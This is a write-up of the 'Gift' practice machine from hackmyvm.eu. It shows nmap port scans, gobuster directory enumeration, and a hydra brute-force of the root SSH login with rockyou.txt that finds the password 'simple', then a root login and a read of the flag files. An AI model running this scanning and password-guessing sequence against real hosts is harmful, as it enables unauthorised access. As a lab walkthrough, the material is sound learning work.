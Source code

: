 # Gift Writeup
 
Writeup on a gift from pretty cool site hackmyvm.eu!
 
According to the decription:
 
`A really easy VM. Thats a gift :)`
 
VM: https://hackmyvm.eu/machines/machine.php?vm=Gift
 
## enumeration
We start by identifying the machine
 
Started with a quick nmap scan to determine the machine's ip address
 
```
nmap 10.0.0.0/24 -F
```
 
The scan resulted in the following report
```
Nmap scan report for 10.0.0.122
Host is up (0.00052s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DB:0A:26 (Oracle VirtualBox virtual NIC)
```
 
Now that we now our target's IP address, lets check all TCP ports
```
sudo nmap -sV 10.0.0.122 -p-
```
The report
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-01 18:18 CST
Nmap scan report for 10.0.0.122
Host is up (0.000085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:DB:0A:26 (Oracle VirtualBox virtual NIC)
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
 
```
So we have SSH and HTTP services running and with open ports, let's check them out.
 
OpenSSH, we check for any exploit in that reported OpenSSH version but nothing juicy comes up just now. Let's continue with our findings before resorting to bruteforcing yet.
 
We also detected port 80 open, however there is no version to check for any version related exploits.
 
But let's not get discouraged, lets check whats hosted for us by nginx.
 
```
curl http://10.0.0.122 
```
 
And we get the following response... and the plot chickens.
 
```
Dont Overthink. Really, Its simple.
        <!-- Trust me -->
 
```
If you say so.. hehe.
So far we just got good hopes and curiosity.
 
Im interested in the HTTP server, which has given us some easy interaction.
 
Lets find out if there are more secrets in that HTTP server.
 
 
```
gobuster dir --url http://10.0.0.122 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Using gobuster in directory mode with directory-list-2.3-medium.txt as the wordlist returned the following report
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.0.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
 
```
Nothing, awesome. We gave it a shot, lets put apin in it.
 
Just to make sure we are not missing any other services, we make a UDP scan but nothing interesting comes up
```
sudo nmap -sU 10.0.0.122
```
Seeing this, we will put our attention in the OpenSSH server
 
## bruteforce
As no more details have been found yet. We will begin by bruteforcing the login guessing that the "root" user has remote access.
 
using -l to specify our target username, -P to specify a wordlist, in this case, rockyou.txt
 
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.0.0.122 ssh -t 4
```
Results
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 18:47:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.0.0.122:22/
[22][ssh] host: 10.0.0.122   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 18:47:59
 
```
 
## Verify Access
Now we have a user and password to log into the machine.
```
ssh root@10.0.0.122
#password: simple
```
 
```
root@192.168.100.122's password: 
IM AN SSH SERVER
gift:~# whoami
root
 
```
Success! we are in as root.
 
## Exfiltrate data
Lets find what we are looking for.
 
```
gift:~# ls
root.txt  user.txt
 
```
Right there you can see our gifts ready to be collected.
```
gift:~# cat user.txt
gift:~# cat root.txt
 
```
 
so it was "simple" since the very beggining, amazing!
